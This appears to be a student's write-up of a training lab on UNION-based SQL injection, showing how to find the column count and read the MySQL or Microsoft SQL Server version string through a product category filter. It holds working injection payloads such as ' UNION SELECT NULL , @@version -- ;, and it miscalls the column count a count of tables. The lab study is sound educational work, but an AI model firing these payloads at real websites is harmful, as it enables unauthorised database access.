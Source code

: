 # 🧠 Lab Title: SQL injection attack, querying the database type and version on MySQL and Microsoft

## 🔍 Category
SQLI

## 🎯 Objective
> Display the database version string.

## 🧰 Tools Used
- Notepad

## 🚀 Exploitation Steps
#### Observe the description
> Before diving into the lab, we’re told it's using an MySQL or Microsoft database, its randomized.
**What does that means? and what why would we care?** well , knowning the type of the database will help us minimizing the attack surface , for example if we are planning to attack a Oracle databse we would use Oracle database statements (like this UNION SELECT NULL FROM DUAL --) Its different from MySQL which we will do
```sql
UNION SELECT NULL --
```
so what will we use? based on this [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) we will do it like this

```sql
' UNION SELECT @@version -- ;
```
and of course the vulnerability is in the product category

#### Access the lab
> Click on `ACCESS THE LAB`

#### START HACKING!!!
1) image the query 
```sql
SELECT * FROM products WHERE category = '';
```

2) Test with '

3) We got 500 , good now lets determine how much tables are in there

4) 
```sql
' UNION SELECT NULL -- ;
```
we got 500 , lets try another NULL 

```sql
' UNION SELECT NULL,NULL -- ;
```
Why we leave space and put a ; ?
1) Because the syntax of MySQL and Microsfot in comments is that way
2) We put ; to end the statement

okay now lets build our payload 

5) 
```sql
' UNION SELECT NULL , @@version -- ;
```
### 4. Proof of Success
- We can see the database version

## 🧵 Reflection
> What is the syntax of the MySQL and Microsoft databases? \
> How to retrieve the version of the database of the MySQL and Microsoft databases?
